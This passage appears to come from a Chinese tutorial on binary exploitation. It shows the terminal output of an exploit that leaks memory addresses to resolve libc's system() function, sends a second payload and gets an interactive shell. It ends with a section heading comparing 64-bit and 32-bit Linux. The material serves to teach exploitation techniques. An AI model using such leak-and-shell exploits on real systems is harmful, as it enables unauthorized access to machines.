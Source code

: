 ```
0x8049f74 => f49f0408
0xb77e691c => c5eb7db7
0xb77debc5 => 0069203d
0xb77e6924 => 086c7eb7
0xb77e6c0c => c5eb7db7
0xb77e6c14 => 58387cb7
0xb77c385c => 38387cb7
0xb77c3838 => 2f6c6962
0xb77c383c => 2f693338
0xb77c3840 => 362d6c69
0xb77c3844 => 6e75782d
0xb77c3848 => 676e752f
0xb77c384c => 6c696263
0xb77c3850 => 2e736f2e
0xb77c3854 => 36000000
0xb77c3858 => 007060b7
0xb7607000 => 7f454c46
0xb77c3860 => 7cdd7ab7
0xb7607004 => 01010100
0xb77add7c => 01000000
0xb77add84 => 0e000000
0xb77add8c => 0c000000
0xb77add94 => 19000000
0xb77add9c => 1b000000
0xb77adda4 => 04000000
0xb77addac => f5feff6f
0xb77addb0 => b87160b7
0xb77addb4 => 05000000
0xb77addb8 => 584161b7
0xb77addbc => 06000000
0xb77addc0 => 38ae60b7
0xb76071b8 => f3030000
0xb76071bc => 09000000
0xb76071c0 => 00020000
0xb7608390 => 8e050000
0xb7609fa8 => 8ae4ee1c
0xb7610718 => 562f0000
0xb76170ae => 73797374
0xb76170b2 => 656d0074
0xb761071c => 60f40300
system_addr=0xb7646460

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng
```

# 0x02 linux_64与linux_86的区别
